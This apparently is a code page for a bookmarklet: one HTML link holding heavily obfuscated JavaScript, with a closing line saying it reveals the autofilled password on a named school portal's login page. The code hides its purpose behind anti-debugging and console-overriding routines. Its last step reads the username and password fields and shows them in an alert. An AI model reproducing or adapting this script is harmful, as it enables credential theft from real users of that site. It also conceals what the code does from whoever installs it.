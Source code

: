 # Drag this to your bookmark bar (CONTROL + SHIFT + B to toggle):
<a href="javascript:function _0x3395(_0x222fbb,_0x11ec37){var _0x238c02=_0x4f69();return _0x3395=function(_0x293c03,_0x4cec5f){_0x293c03=_0x293c03-0x10e;var _0x527a22=_0x238c02[_0x293c03];return _0x527a22;},_0x3395(_0x222fbb,_0x11ec37);}var _0x14873b=_0x3395;(function(_0x4a2c34,_0x5c26c5){var _0x2a4b27=_0x3395,_0x558401=_0x4a2c34();while(!![]){try{var _0xd2c9ea=-parseInt(_0x2a4b27(0x10f))/0x1+parseInt(_0x2a4b27(0x122))/0x2+parseInt(_0x2a4b27(0x123))/0x3+parseInt(_0x2a4b27(0x126))/0x4+-parseInt(_0x2a4b27(0x113))/0x5*(parseInt(_0x2a4b27(0x11b))/0x6)+-parseInt(_0x2a4b27(0x129))/0x7*(-parseInt(_0x2a4b27(0x116))/0x8)+parseInt(_0x2a4b27(0x111))/0x9*(-parseInt(_0x2a4b27(0x127))/0xa);if(_0xd2c9ea===_0x5c26c5)break;else _0x558401['push'](_0x558401['shift']());}catch(_0x1c1df4){_0x558401['push'](_0x558401['shift']());}}}(_0x4f69,0x1f70c));function _0x4f69(){var _0x12969b=['175772uWdWwF','10tlrEyP','apply','3934LQLCqh','LogOnDetails_UserName','107800kNMnfz','{}.constructor(\x22return\x20this\x22)(\x20)','1793223vcYkYm','value','15230zhXlji','search','prototype','344gvuHQD','(((.+)+)+)+$','length','toString','getElementById','132YNQnxT','bind','log','warn','console','__proto__','info','440804vFxNqN','642984vIIjBd','constructor','exception'];_0x4f69=function(){return _0x12969b;};return _0x4f69();}var _0x162192=(function(){var _0x3acb1d=!![];return function(_0xbdbca9,_0x565e58){var _0x397366=_0x3acb1d?function(){var _0x2c7a57=_0x3395;if(_0x565e58){var _0x47f73e=_0x565e58[_0x2c7a57(0x128)](_0xbdbca9,arguments);return _0x565e58=null,_0x47f73e;}}:function(){};return _0x3acb1d=![],_0x397366;};}()),_0x5e7fdd=_0x162192(this,function(){var _0xe0c974=_0x3395;return _0x5e7fdd[_0xe0c974(0x119)]()[_0xe0c974(0x114)](_0xe0c974(0x117))[_0xe0c974(0x119)]()[_0xe0c974(0x124)](_0x5e7fdd)[_0xe0c974(0x114)](_0xe0c974(0x117));});_0x5e7fdd();var _0x4cec5f=(function(){var _0x533e3a=!![];return function(_0x2f8380,_0x60bab7){var _0x4b3e4a=_0x533e3a?function(){var _0x7d9a6f=_0x3395;if(_0x60bab7){var _0xb7c5fd=_0x60bab7[_0x7d9a6f(0x128)](_0x2f8380,arguments);return _0x60bab7=null,_0xb7c5fd;}}:function(){};return _0x533e3a=![],_0x4b3e4a;};}()),_0x293c03=_0x4cec5f(this,function(){var _0xb013c2=_0x3395,_0x1ba103=function(){var _0x59040a=_0x3395,_0x43027c;try{_0x43027c=Function('return\x20(function()\x20'+_0x59040a(0x110)+');')();}catch(_0x388e78){_0x43027c=window;}return _0x43027c;},_0x26ef19=_0x1ba103(),_0x448ec5=_0x26ef19[_0xb013c2(0x11f)]=_0x26ef19[_0xb013c2(0x11f)]||{},_0x59b2a5=[_0xb013c2(0x11d),_0xb013c2(0x11e),_0xb013c2(0x121),'error',_0xb013c2(0x125),'table','trace'];for(var _0x42aa86=0x0;_0x42aa86<_0x59b2a5[_0xb013c2(0x118)];_0x42aa86++){var _0x2e8ea7=_0x4cec5f[_0xb013c2(0x124)][_0xb013c2(0x115)][_0xb013c2(0x11c)](_0x4cec5f),_0x40e399=_0x59b2a5[_0x42aa86],_0x4f7d1e=_0x448ec5[_0x40e399]||_0x2e8ea7;_0x2e8ea7[_0xb013c2(0x120)]=_0x4cec5f[_0xb013c2(0x11c)](_0x4cec5f),_0x2e8ea7[_0xb013c2(0x119)]=_0x4f7d1e[_0xb013c2(0x119)][_0xb013c2(0x11c)](_0x4f7d1e),_0x448ec5[_0x40e399]=_0x2e8ea7;}});_0x293c03();_0x28220e:alert(document[_0x14873b(0x11a)](_0x14873b(0x10e))[_0x14873b(0x112)]+':\x20'+document[_0x14873b(0x11a)]('LogOnDetails_Password')['value']);)">Click Me</a>

# Click on it while on hac.hcps.org's login page and it will alert the autofilled password if it exists.
